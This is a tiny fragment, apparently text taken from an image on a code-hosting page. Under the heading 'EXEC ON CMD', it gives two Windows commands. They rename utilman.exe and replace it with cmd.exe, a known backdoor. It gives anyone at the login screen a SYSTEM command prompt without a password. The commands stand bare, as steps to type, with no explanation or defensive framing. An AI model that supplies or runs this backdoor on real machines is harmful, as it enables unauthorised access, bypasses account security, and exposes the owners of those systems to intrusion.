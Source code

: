 EXEC ON CMD ->  
Type ren C:\windows\system32\utilman.exe utilman.exe.bak
Type copy C:\windows\system32\cmd.exe C:\windows\system32\utilman.exe
